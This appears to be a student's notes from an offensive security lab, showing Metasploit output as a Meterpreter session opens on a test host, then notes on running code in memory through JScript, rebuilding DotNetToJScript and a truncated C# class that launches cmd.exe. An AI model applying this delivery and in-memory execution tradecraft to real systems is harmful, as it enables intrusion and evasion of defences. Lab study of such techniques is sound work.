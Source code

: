 ```shell
[*] https://192.168.1.110:443 handling request from 192.168.1.135; (UUID: pxlau20q) Staging x64 payload (202844 bytes) ...
[!] https://192.168.1.110:443 handling request from 192.168.1.135; (UUID: pxlau20q) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.1.110:443 -> 192.168.1.135:52618) at 2024-05-11 14:15:46 -0400

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > getuid
Server username: COMMANDO\dooley
```

- If we needed to set a proxy `oSrvXMLHTTPRequest.setProxy(proxySetting, varProxyServer, varBypassList);`
- MS Doc https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms760236(v=vs.85)?redirectedfrom=MSDN
- https://learn.microsoft.com/en-us/sql/ado/guide/data/command-streams?view=sql-server-ver16
- ADO stands for ActiveX Data Objects.  The ADO Stream Object is used to read, write, and manage a stream of binary or text data.



## JScript and C\#

- run in memory rather than touching disk
- needed to rebuild DotNetToJscript dll due to the following error
```cmd
c:\Users\dooley\Documents\github\DotNetToJScript>DotNetToJScript\bin\Debug\DotNetToJScript.exe ExampleAssembly\bin\Debug\ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
This tool should only be run on v2 of the CLR
```
- solution to issue https://github.com/tyranid/DotNetToJScript/issues/19
- code to launch command prompt
```c#
using System.Diagnostics;

using System.Runtime.InteropServices;

using System.Windows.Forms;

  

[ComVisible(true)]

public class TestClass

{

    public TestClass()

    {

        // Create a new ProcessStartInfo object

        ProcessStartInfo psi = new ProcessStartInfo

        {

            FileName = "cmd.exe", // Specify the executable to run (cmd.exe)

            UseShellExecute = true // Use the shell to execute the process

        };

```